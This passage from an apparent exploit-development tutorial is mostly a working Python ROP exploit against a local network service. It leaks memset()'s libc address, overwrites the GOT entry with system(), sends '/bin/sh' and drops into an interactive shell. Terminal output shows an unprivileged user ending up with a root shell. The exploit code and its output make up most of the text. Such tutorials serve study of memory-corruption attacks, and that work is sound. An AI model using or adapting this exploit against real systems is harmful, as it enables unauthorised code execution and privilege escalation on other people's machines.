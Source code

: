 ```python
buf += pack("<Q", 0x1)          # junk
buf += pack("<Q", memset_plt)   # return to memset@plt which is actually system() now

s = socket(AF_INET, SOCK_STREAM)
s.connect(("127.0.0.1", 2323))

# stage 1: overwrite RIP so we return to write@plt to leak memset()'s libc address
print s.recv(1024)              # "Enter input" prompt
s.send(buf + "\n")              # send buf to overwrite RIP
print s.recv(1024)              # receive server reply
d = s.recv(1024)[-8:]           # we returned to write@plt, so receive the leaked memset() libc address 
                                # which is the last 8 bytes in the reply

memset_addr = unpack("<Q", d)
print "memset() is at", hex(memset_addr[0])

libc_base = memset_addr[0] - memset_off
print "libc base is", hex(libc_base)

system_addr = libc_base + system_off
print "system() is at", hex(system_addr)

# stage 2: send address of system() to overwrite memset()'s GOT entry
print "sending system()'s address", hex(system_addr)
s.send(pack("<Q", system_addr))

# stage 3: send "/bin/sh" to writable location
print "sending '/bin/sh'"
s.send("/bin/sh")

# get a shell
t = telnetlib.Telnet()
t.sock = s
t.interact()
```

I've commented the code heavily, so hopefully that will explain what's going on. If you're still a bit confused, attach gdb to socat and step through the process. For good measure, let's run the binary as the root user, and run the exploit as a non-priviledged user: 

```
koji@pwnbox:/root/work$ whoami
koji
koji@pwnbox:/root/work$ ./poc.py
Enter input:
Recv:
memset() is at 0x7f57f50015c0
libc base is 0x7f57f4f75000
system() is at 0x7f57f4fbb640
+ sending system()'s address 0x7f57f4fbb640
+ sending '/bin/sh'
whoami
root
```
